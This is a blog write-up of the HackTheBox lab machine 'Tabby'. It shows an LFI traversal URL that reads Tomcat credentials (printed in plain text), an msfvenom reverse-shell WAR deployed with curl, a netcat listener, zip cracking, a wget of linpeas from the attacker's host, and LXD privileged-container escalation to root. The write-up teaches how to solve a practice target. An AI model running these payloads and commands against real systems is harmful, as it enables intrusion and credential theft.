

Tabby_writeup
Oct. 23, 2020
HTB - Tabby
Welcome back! Today we’ll be hacking Tabby a free room from HackTheBox, I hope you enjoy it!
- Please visit This room on HackTheBox by clicking this link.
- PLEASE NOTE: Passwords, flag values, or any kind of answers to the room questions were intentionally masked.
Getting initial access and user flag
When you open the page, there is a banner mentioning security policy changes. If you click on that link it takes you to a not-found page. But If look the URL looks similar to any LFI (local File includes) you might have seen before. We can test that to see if we are correct.
If we look at port 8080 we notice an important config file is mentioned. We can try that file for our LFI test:
Replacing the domain for the machine IP let’s us test and prove LFI is possible:
http://10.10.10.194/news.php?file=../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

And by doing that test, we get the password for the web admin gui.
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
If we check the results from nmap we see there is something being served at port 8080. There we see a couple of links to a manager_webapp and a host-manager_webapp.
If we try loggin in with the credentials we found exploiting LFI, we see we can only log to the host-manager_webapp.

With access we have to the host manager GUI, we can try to create a new virtual host where we can try to upload a payload to get us a foothold on this machine.
We need to create a payload, for that we’ll use msfvenom and to create a virtual host will use the commandline with the credentials we found earlier.
Let’s create our payload first, we need to create a payload of WAR type:
From Wikipedia: In software engineering, a WAR file (Web Application Resource[1] or Web application ARchive[2]) is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages (HTML and related files) and other resources that together constitute a web application.
to create our payload we use msfvenom as follows:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[YOUR_IP] LPORT=[DESIRED_PORT] -f war > payload.war
Once we have our payload generated, we need to upload it to the server as a new virtual host. We can do that as follows using curl:
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T payload.war 'http://10.10.10.194:8080/manager/text/deploy?path=/tzero86'
With this command we are creating a new accessible location, in my case /tzero86.

Ok so before we try to connect to this payload we sent to the server, let’s fire up a netcat listener on the port you specified when creating the payload, in my case nc -lnvp 2112.
Now we try and execute the payload using curl again:
curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/tzero86/
Remember the location is whatever name you entered when sending the payload as a new virtual host.

And if we look at our listener, we do have a connection:

As you can see the shell we got is pretty basic and not much of an interactive one. We could try call python tty.
python3 -c 'import pty; pty.spawn("/bin/bash")'
that looks a bit better.
Now we need to try to find some way to escalate privs, let’s see if we can find anything useful. We know that apache serves the webfiles from the /var/www/html/ directory. Let’s look there first.
If we access that location we see we have a files folder with a backup file on it:

That file might very well contain information that could let us escalate privileges. We need to download it.
We can try to fire up a local python3 server (python2 is not installed on the remote machine) and then try to wget that backup file:

Ok now that we got the backup file, let’s see if we can open the file and try to extract the files:

We are not lucky this time, as the file is password protected. We’ll have to find a way to crack that password. Let’s see if we can use fcrackzip tool to achieve that. You can install this tool by running sudo apt-get install fcrackzip -y.
Now we run it like this:
fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt {zip_file_name}

That works really fast and we get our password. If we try to unzip the file now it works fine. However, the zip file does not contain anything useful. We can still try to see if that password is actually being used by an user and try to switch users in our reverse shell.
If we run cat /etc/passwd we get a list of users, there we can see our current user tomcat and among others, one called ash. Let’s see if we can switch to that user: su ash and we try the password we got earlier.
that seems to work:

If we navigate to the user’s home folder, we can run cat user.txt to get the flag.

Getting Root
Now that we got the user flag, we need to try to get root. Let’s upload linpeas.sh and see if it finds something useful in the target machine. For this I simply ran a python3 -m http.server 2112 on my machine in a folder where I downloaded linpeas.
In the target machine I navigated to /tmp and downloaded the file with wget

Now we just need to make the script executable running chmod +x linpeas.sh
Then we just run it by doing ./linpeas.sh.
Linpeas found a container running:

and if we run the id command for our current user, we see that we have lxd permissions:

This reminds me of a TryHackMe box I solved not long ago that also involved containers and using alpine to get root. You can check that post here to get more details on the process to exploit this and a bit of information on LXD and linux containers.
We first need to clone the alpine builder script: git clone https://github.com/saghul/lxd-alpine-builder. Once cloned, browse into that lxd directory and run sudo ./build-alpine to bake the image.
If you then look into the directory, you’ll see a new file:

Now let’s start a python local server on that folder so we can upload the file to the machine and then wget that file:

Ok, now we need to create a new container, add a device to it that will mount the file system with privileges which will give us root access.
To do that we run the following command in our remote session:
lxc image import alpine-v3.12-x86_64-20201023_1151.tar.gz --alias tzero86
Note: I opted to browse to ash’s home directory, created a folder and uploaded the image there:

Once there we initialize our image with privileges:
lxc init tzero86 rootz -c security.privileged=true

Once there we add a device to our box that will mount the file system with privileges:
lxc config device add rootz myRoot disk source=/ path=/mnt/root recursive=true
Then we start the container:
lxc start rootz
and we execute it:
lxc exec rootz /bin/sh
if we run a whoami we are now root.

Now we just need to navigate to mnt/root/root/ and just run cat root.txt to get the root flag:

NOTE: Not sure what’s going on with those weird characters in the console, but this worked and we got the root.
That was tabby a HackTheBox challenge. Hope you enjoyed it!
Thanks for stopping by, happy hacking!
comments powered by Disqus